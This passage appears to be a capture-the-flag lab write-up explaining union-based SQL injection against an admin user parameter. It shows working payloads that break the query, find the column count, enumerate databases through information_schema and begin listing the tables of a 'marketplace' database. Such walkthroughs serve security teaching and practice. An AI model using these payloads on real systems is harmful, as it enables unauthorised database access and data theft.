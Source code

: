 The first thing we can do is trying to **break the query**. Usually, putting an `'` at the end does the trick:

![break-query](query-break.png)

The fact that we are getting this error message confirms that existence of an **SQLi vulnerability**, but it is also kind enough to provide us with some extra information and let us know that the server uses *MySQL server*.

We can now try a **Union-Based SQLi** by using the `UNION` clause to extract the information needed. 

1. First, our goal is to get rid of the error message.

    ```sql
    admin?user=1 UNION SELECT 1;--
    ```

    ![sqli-1](sqli-1.png)

    The error message informs us that our `SELECT` statement have a different number of columns. After trying `1,2` and `1,2,3`, we get something that works:

    ```sql
    admin?user=1 UNION SELECT 1,2,3,4;--
    ```

    ![sqli-2](sqli-2.png)

2. Let's try now to enumerate the databases of this site:

    ```sql
    admin?user=1 UNION SELECT group_concat(schema_name),2,3,4 from information_schema.schemata;--
    ```

    ![sqli-3](sqli-3.png)

    The result is displaying the first part of our query: `user=1`, but not the information after the `UNION` clause. That is because it takes the first returned result somewhere in the web site's code and shows just that.

    To bypass this issue, **we need the first query to produce no results**. Since we know that the first user's ID is `1`, we can change the value of the parameter `user` to `0`. By doing that, the `user=0` will return `FALSE` and have no results to show us back, so it will continue with the rest of our query.

    ```sql
    admin?user=0 UNION SELECT group_concat(schema_name),2,3,4 from information_schema.schemata;--
    ```

    ![sqli-4](sqli-4.png)

3. So we have found that there is a database called `marketplace`. Let's find out what tables it contains:

    ```sql
    admin?user=0 UNION SELECT group_concat(table_name),2,3,4 FROM information_schema.tables where table_schema='marketplace'--
    ```
